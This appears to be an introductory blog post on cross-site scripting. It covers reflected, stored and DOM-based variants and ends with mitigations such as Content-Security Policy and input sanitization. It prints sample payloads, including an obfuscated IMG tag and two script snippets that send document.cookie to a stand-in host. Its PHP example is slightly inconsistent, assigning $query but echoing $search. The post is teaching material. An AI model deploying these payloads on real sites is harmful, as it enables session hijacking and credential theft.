 ```yaml
---
layout: post
title: What Is XSS?
---
```


## What Is It?
Cross-Site Scripting (XSS) is a client-side attack that allows an attacker to run arbitrary Javascript on a web site or application. This enables an attacker to do malicious things such as steal cookies which can lead to session hijacking, steal user credentials, or log keystrokes. 
There are a few different types of Cross-Site Scripting. The most common types are reflected, stored or persistent, and DOM-based XSS. There is also a less common version called mutation XSS (mXSS). Being a client-side attack, what they have in common is that a payload exploiting these vulnerabilities needs to be delivered to the user in some fashion. This, typically, means phishing.

The difference between them, for the most part, is self-explanatory. A search function that displays the input entered back onto the page is a good example of reflected XSS. 

Consider the following code snippet:
```
<body>
	<form action=”” method=”get”>
		<input type=”text” name=”search”>
		<input type=”submit” value=”Submit”>
	</form>
```

```php
  <?php
    $query = $_GET['search'];
    echo "Results for: $search"; 
  ?>
```
The XSS payload would be stored within the $query variable and then executed as it is reflected onto the page.
Stored XSS, on the other hand, means the payload is not immediately executed. It will be stored in a database, and upon retrieval will be executed somewhere. This could be the comment section of a blog for example. First, an attacker would submit a XSS payload as a comment. Then, once a user navigates to the post that comment is for, the payload would execute.

DOM-based XSS is where things get tricky. To understand this attack, one must first understand the DOM. This stands for the Document-Object Model. It is a tree-representation of the structure of documents in memory. Essentially, Javascript interacts with and manipulates the HTML on a website through the DOM. 
DOM-based XSS comes into play when Javascript methods such as .innerHTML are used with unsanitized data. 

Consider the following code snippet:
```javascript
let input = post.author;
element.innerHTML = input;
```
Since the input variable is user-supplied, a malicious payload could be supplied. DOM-based XSS can get very complicated so there will be other resources listed at the end that will explain it better. 

## What does it look like?
A XSS payload can be as simple as &lt;script&gt;alert(1)&lt;/script&gt; or as complex as &lt;IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116
&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041&gt;.

While Flash and ActiveX can also be vectors for XSS, today, it tends to be javascript. So, any javascript code could potentially be a XSS payload. 
Generally, &lt;script&gt;alert(1)&lt;/script&gt; is used to test for the vulnerability to see if it is exploitable. 

The following code snippets may also be seen:
```
<script>
  let image = new Image(); 
  image.src='http://example.com?c='+document.cookie;
</script>
```
```
<script>
  document.location="http://example.com?c="+document.cookie;
</script>
```
## Mitigations
There are several ways to mitigate against XSS. All of them originate from the same consideration: never trust user input. And none of them should ever be solely relied upon.

A well-configured Content-Security Policy (CSP) can be a great step towards preventing XSS. It defines trust boundaries for scripts, stylesheets and other media sources. 

Input validation and sanitization are also excellent options. Input validation is the process of ensuring the data submitted is what was expected. Input sanitization is the process of removing or manipulating potentially malicious data. 

## Resources
[DOM XSS Explained](https://www.acunetix.com/blog/articles/dom-xss-explained/)

[DOM Based XSS Software Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS)

[What is DOM Based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

[Content-Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

[Content-Security Policy - Google](https://developers.google.com/web/fundamentals/security/csp/)

[Content-Security Policy: Use Cases](https://beaglesecurity.com/blog/article/content-security-policy.html)

